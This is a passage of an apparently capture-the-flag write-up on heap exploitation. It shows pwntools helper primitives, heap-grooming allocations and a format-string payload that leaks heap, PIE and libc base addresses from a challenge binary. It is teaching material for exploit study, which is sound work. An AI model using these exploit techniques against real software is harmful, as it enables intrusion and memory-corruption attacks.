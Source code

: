 ```py
    p.sendlineafter('[Y/N]> ',kek)
    p.sendlineafter('> ',str(idx))
    return p.recvline().split(b':')[1]
```

These *primitives* are here to make it incredibly easy to perform operations on the heap of the target, we have one for each function: `alloc` for allocating chunks, `view` for printing chunk contents, and `sice`/`free` for `free()`ing chunks.

Its important to mention that due to the behavior of the `print()` function we cant use the `view` function more than once; since its already hard enough to exploit with the limited slots we have left from one call.

Firstly, we start the binary, and make 4 allocations:

```py
alloc(1, 0x208,'hk')

alloc(7, 0x2000,'hk')

alloc(9, 0x100, 'HKHK')

alloc(11, 0x100, '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p') # leaky chunk
```

The first allocation exists only to box in allocation '7' such that it will not be consumed - if you cant already tell, '7' will be very important for our exploit to come. 7 is also an `unsorted` bin chunk when free'd, making it able to be re-used with other chunks (this fact is also very important).

 We then make another allocation in '9' which also functions as a "box" so that our chunk will not be consumed and another in '11'.

## Leaks

The chunk in '11' will be passed to `printf` in `print()` and will leak us all the pointers we need from the stack for our exploit.

We can see this here:

```py
sice(7)

sice(9) # tcache

leaks = view(11,'a').strip()
print(leaks.split(b'0x'))
heap_base = (int(b'0x' + leaks.split(b'0x')[8],0)&0xfffffffffffff000) - 0x2000
pie_base = int(b'0x' + leaks.split(b'0x')[5],0) - 0x11b0
libc_base = int(b'0x' + leaks.split(b'0x')[15],0) - 0x270b3
print(f'Heap base: {hex(heap_base)}')
print(f'Pie leak: {hex(pie_base)}')
print(f'Libc base: {hex(libc_base)}')
```
